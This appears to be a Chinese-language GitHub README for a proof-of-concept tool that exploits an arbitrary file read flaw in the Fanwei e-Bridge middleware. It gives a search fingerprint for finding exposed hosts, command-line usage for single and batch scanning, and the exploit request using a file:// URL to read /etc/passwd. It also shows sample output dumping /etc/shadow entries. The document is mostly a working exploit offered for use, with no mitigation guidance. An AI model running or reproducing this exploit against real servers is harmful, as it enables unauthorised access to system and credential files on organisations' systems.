 # fanweiOA-saveYZJFile任意文件读取漏洞

# 漏洞描述
泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

# 影响版本
泛微云桥 e-Bridge 2018-2019 多个版本

# 网络测绘
title="泛微云桥e-Bridge"

# 使用方法
optional arguments:
  -h, --help                    show this help message and exit
  -i IP, --ip IP                单个ip地址
  -l LIST, --list LIST          ip列表 - 批量扫描
  -t TARGET, --target TARGET    访问的目录或文件 - 完整路径
  
# 例子
python poc.py -i xx.xx.xx.xx

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable

Linux系统
python poc.py -i xx.xx.xx.xx -t etc/shadow

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable

------------results------------
root:*:19001:0:99999:7:::
bin:*:15980:0:99999:7:::
daemon:*:15980:0:99999:7:::
adm:*:15980:0:99999:7:::
......


